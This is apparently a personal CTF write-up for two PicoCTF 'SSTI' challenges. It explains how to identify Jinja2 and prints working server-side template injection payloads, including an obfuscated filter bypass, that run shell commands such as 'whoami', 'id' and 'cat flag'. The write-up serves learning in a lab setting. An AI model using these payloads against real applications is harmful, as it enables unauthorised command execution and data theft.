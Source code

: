 ```yaml
---
title: PicoCTF2025
date: '2016-03-08'
draft: false
summary: Example of a markdown file with code blocks and syntax highlighting
---
```


## SSTI1

From the challenge title, it's clear that we're dealing with **Server-Side Template Injection (SSTI)**. By testing a few payloads, we can identify the template engine being used.

## Identifying the Template Engine

Here are some basic payloads for different template engines:

![template-decision-tree](/static/images/template-decision-tree.png)

After testing these, the one that works is `{{ 7*7 }}`, returning `49`, confirming the engine is **Jinja2**.

## Exploitation

To confirm command execution, I try:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```

It works! Then I go ahead and read the flag:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

And successfully retrieve the flag.

> Helpful source: [SSTI Server Side Template Injection - Medium](https://medium.com/@yadav-ajay/ssti-server-side-template-injection-746dda439038)

---

## SSTI2

In the second challenge, the vulnerability is confirmed using:

```jinja
{{ 7 * '7' }}
```

Which returns: `7777777`  
This again confirms SSTI.

### Bypassing Filters

I found this obfuscated payload that bypasses filters and still achieves code execution:

```jinja
{{ request | attr('application') | attr('__globals__') | attr('__getitem__')('__builtins__') | attr('__getitem__')('__import__')('os') | attr('popen')('id') | attr('read')() }}
```

Then I modify it to read the flag:

```jinja
{{ request | attr('application') | attr('__globals__') | attr('__getitem__')('__builtins__') | attr('__getitem__')('__import__')('os') | attr('popen')('cat flag') | attr('read')() }}
```

> Reference: [Server Side Template Injection with Jinja2 - OnSecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

> Reference: [Port Swigger SSTI](https://portswigger.net/web-security/server-side-template-injection)
